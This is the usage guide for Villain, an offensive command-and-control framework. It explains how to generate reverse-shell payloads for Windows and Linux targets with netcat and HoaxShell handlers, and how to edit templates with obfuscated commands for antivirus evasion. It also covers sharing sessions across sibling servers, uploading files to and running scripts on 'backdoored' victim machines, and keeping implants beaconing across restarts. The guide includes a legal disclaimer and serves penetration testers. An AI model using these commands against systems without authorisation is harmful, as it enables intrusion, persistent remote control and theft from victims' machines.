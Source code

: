 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

[2022-11-30] [John Hammond](https://github.com/JohnHammond) showcased the tool in this incredible video -> [youtube.com/watch?v=pTUggbSCqA0](https://www.youtube.com/watch?v=pTUggbSCqA0)  
[2023-03-30] Latest release demo, made by me -> [youtube.com/watch?v=NqZEmBsLCvQ](https://www.youtube.com/watch?v=HR1KM8wrSV8)  

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)

## News
### 2023-08-03 Update log
- HoaxShell implants are now reusable as long as they were generated by the Villain instance you are trying to connect back to from the victim (Legit session data is saved on disk and is loaded into memory every time you start Villain on your machine). Villain will also re-establish a session if it receives beacons from it (e.g., because the payload is still running on a victim from a past session).
- You can use the new prompt command `flee` to exit Villain without terminating active sessions. That way, next time you start it, if there are alive beacons from victims, sessions will be re-established.
- The `--insecure` option was added which will allow sibling servers to connect to your instance without approval.
- Added a filter for random socket connections to Villain's TCP multi-listener that should prevent establishing junk sessions.
- Fixed an issue regarding the sessions table that could break because of junk TCP sessions.
- Added the `purge` prompt command to delete all session related metadata stored on disk.

### 2023-03-31 Update log
- The Payload Generator class was redesigned to work by dynamically engaging payload templates with a standard structure. This makes payload generation much easier and allows users to edit the default payload templates or add their own, according to their needs & tactics. As you'll notice, most of the default templates I've added for both Windows and Linux are designed to start as new processes.
- The stability and general functionality of the pseudo-shell prompt ("shell" command) has been significantly improved.
- The "upload" and "conptyshell" commands were added.
- A new chat feature was added (you can broadcast messages to all siblings by starting a command with "#").
- The "exec" command is also improved but still kind of unstable. Someday it's gonna be doing wonders. Have a little faith.


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest Villain release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Villain and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)  

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Usage examples:
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Villain with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV 
  evasion.

⚡TCP socket based shells (netcat) are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Villain. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## Upload
Use the `upload` prompt command to transfer a file from your system to a backdoored machine. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server. You can run the command from Villain's main prompt as well as the pseudo shell terminal.

From the main prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH> <SESSION ID or ALIAS>
```

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage: 
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Exec
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. Files are executed by being http requested from the Http File Smuggler. Be carefull! The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).  

Usage: 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```

## Flee
Use the `flee` prompt command to exit Villain without terminating any active sessions. If you start Villain again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.  

## Purge
Villain automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```

